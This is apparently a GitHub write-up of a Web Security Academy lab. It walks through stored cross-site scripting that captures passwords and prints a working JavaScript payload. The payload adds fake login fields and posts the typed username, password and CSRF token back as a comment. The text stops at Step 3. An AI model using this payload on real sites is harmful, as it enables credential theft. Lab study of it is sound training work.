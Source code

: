 # 🛡️ Web Security Academy Lab: Exploiting Cross-Site Scripting to Capture Passwords
## 🧠 Objective
Exploit a stored XSS vulnerability to capture user credentials (username and password) by injecting malicious JavaScript into a comment form.

## 🧩 Step-by-Step Exploitation Walkthrough
**🔍 Step 1: Reconnaissance**

I began by identifying a comment form on a blog post. The form included fields for comment, name, email, and website—classic vectors for stored XSS.

<img width="922" height="823" alt="Screenshot 2025-10-12 152117" src="https://github.com/user-attachments/assets/d1a6f269-cbbf-4544-a9b9-14cf56c682b8" />

**🧪 Step 2: Crafting the Payload**

I used a script that would capture the username and password from the login form and send them to the server via a POST request. The payload looked like this (DO NOT USE PAYLOADS WITHOUT EXPLICIT PERMISSION):
```
<input type='text' name='username'>
<input type='password' name='password' onchange='hax()'>

<script>
function hax() {
    var token = document.getElementsByName('csrf')[0].value;
    var username = document.getElementsByName('username')[0].value;
    var password = document.getElementsByName('password')[0].value;

    var data = new FormData();
    data.append('csrf', token);
    data.append('username', username);
    data.append('password', password);
    data.append('name', 'victim');
    data.append('email', 'booga@gmail.com');
    data.append('website', 'https://www.google.com');

    fetch('/post', {
        method: 'POST',
        body: data
    });
}
</script>

```
This script was designed to run when the victim typed their password, capturing their credentials and sending them to the server.

**🚨 Step 3: Submitting the Malicious Comment**
